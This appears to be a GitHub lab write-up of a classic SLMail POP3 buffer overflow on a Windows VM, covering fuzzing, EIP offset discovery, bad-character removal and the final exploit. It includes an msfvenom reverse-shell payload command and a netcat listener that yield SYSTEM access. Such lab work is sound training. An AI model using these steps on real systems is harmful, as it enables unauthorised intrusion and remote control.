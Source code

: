 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real-time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Opened BOF machine, accessed command prompt as admin, ran **“slmgr /rearm”** and **“ipconfig”**. Identified IP as **“10.0.2.10”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF1.png" alt="">
</p>

- Installed **“12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe”**, rebooted VM, and created a shortcut for **“SLmail.cpl”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF2.png" alt="">
</p>

- Launched **“SLmail.cpl”** & **“Immunity debugger”** as admin.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF3.png" alt="">
</p>

- In “Immunity debugger”, attached the **“SLmail.exe”** file and ensure its active state.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF4-1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF4-2.png" alt="">
</p>

- On my Kali machine, downloaded the **“fuzzerScript.py”** to the BOF folder on the desktop.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF5.png" alt="">
</p>

- In the same directory, created and edited **“fuzzy.py”**, updating the target IP address on line 13.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF6.png" alt="">
</p>

- Performed an nmap scan on the target VM. Identified Port 100 open with “pop3” protocol.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF7.png" alt="">
</p>

- Updated the **“fuzzy.py”** with the target IP and port.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF8.png" alt="">
</p>

- In the BOF directory, executed the script using “python2 fuzzy.py”.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF9.png" alt="">
</p>

- In Immunity debugger, noticed EIP showing **“41414141”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF10.png" alt="">
</p>

- Generated an MSF pattern using **“msf-pattern_create -l 3000”**, producing a unique 3000-byte pattern to identify program control flow.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF11.png" alt="">
</p>

- Copied this pattern into the **“fuzzy.py”** script buffer, removing the unnecessary counter and loop.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF12.png" alt="">
</p>

- Reset both SLmail.cpl and Immunity debugger. Ensured SLmail was active in Immunity, then ran **“python2 fuzzy.py”** from Kali.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF13.png" alt="">
</p>

- Observed EIP in Immunity debugger updated to **“39694438”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF14.png" alt="">
</p>

- Determined memory control location using **“msf-pattern_offset -l 3000 -q 39694438”**, identifying offset **“2606”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF15.png" alt="">
</p>

- Validated this by modifying **“fuzzy.py”** buffer to **“A * 2606 + B * 4”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF16.png" alt="">
</p>

- Reset SLmail.cpl and Immunity debugger, then executed **“python2 fuzzy.py”**. Noticed EIP as **“42424242”** and EBP as **“41414141”** in Immunity debugger.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF17-1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF17-2.png" alt="">
</p>

- Updated **“fuzzy.py”** to include bad characters, and modified the buffer accordingly.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF18.png" alt="">
</p>

- Restarted slmail.clp and Immunity debugger. Ran **“python fuzzy.py”** from Kali, noting an output of 2865 bytes.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF19.png" alt="">
</p>

- Followed ESP in Immunity debugger's dump, identifying sequences to be removed from **“fuzzy.py”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF20-1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF20-2.png" alt="">
</p>

- Repeated the process with updated **“fuzzy.py”**, observing a byte decrease in output.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF21.png" alt="">
</p>

- Made another update to **“fuzzy.py”**, removing the identified bad character.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF22-1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF22-2.png" alt="">
</p>

- Reset tools, searched for mona modules in Immunity debugger, then searched for the appropriate DLL.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF23.png" alt="">
</p>

- Crafted shellcode with **“msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"”**.

<p align="center">
  <img src="" alt="">
</p>

- Updated “fuzzy.py” with the crafted shell code.

<p align="center">
  <img src="" alt="">
</p>

- Set up a listener on Kali with **“nc -lvp 4444”**.



- Restarted SLmail, ran **“fuzzy.py”**. The netcat listener received the code, granting system access. Confirmed with **“whoami”** command showing “nt authority\system”.

